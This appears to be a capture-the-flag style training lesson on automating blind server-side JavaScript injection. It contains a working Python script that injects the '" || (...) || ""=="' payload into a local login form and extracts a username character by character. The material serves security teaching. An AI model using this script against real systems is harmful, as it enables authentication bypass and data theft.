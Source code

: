 
# Automating Server-Side JavaScript Injection

* * *

## Developing the Script

In the previous section, you should've managed to extract the first five characters of the target's username ( `HTB{?`). To save us the effort of sending hundreds of requests for the rest, we will write another Python script to dump the username via (blind) SSJI.

First, we will define the `oracle` function and required imports. In the previous section, we used the payload `" || true || ""=="`, because `true` is known to evaluate as `true` (obviously). In this function, we replace `true` with an arbitrary expression we want the server to assess. If it returns `true`, we will be logged in, and the function will return true (detects `"Logged in as"` in `r.text`), and if the express returns `false` we won't be logged in, so the function will return `false`.

We've already established that the password does not matter, so we can set it to a constant 'x'.

```python
import requests
from urllib.parse import quote_plus

# Oracle (answers True or False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

```

With the oracle function defined, we can test that it is working correctly with the following two `assert` statements:

```python
# Ensure the oracle is working correctly
assert (oracle('false') == False)
assert (oracle('true') == True)

```

Now that that's all ready, we can proceed to dump the username similarly to the script from the `Automating Blind Data Extraction` section. Note that for this section, the alphabet is not restricted to `0-9a-f`, but rather all [printable ASCII characters](https://www.asciitable.com/) ( `32-127`).

```python
# Dump the username ('regular' search)
num_req = 0 # Set the request counter to 0
username = "HTB{" # Known beginning of username
i = 4 # Set i to 4 to skip the first 4 chars (HTB{)
while username[-1] != "}": # Repeat until we dump '}' (known end of username)
    for c in range(32, 127): # Loop through all printable ASCII chars
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # Append current char to the username if it expression evaluates as True
            break # And break the loop
    i += 1 # Increment the index counter
assert (oracle('this.username == `%s`' % username) == True) # Verify the username
print("---- Regular search ----")
print("Username: %s" % username)
```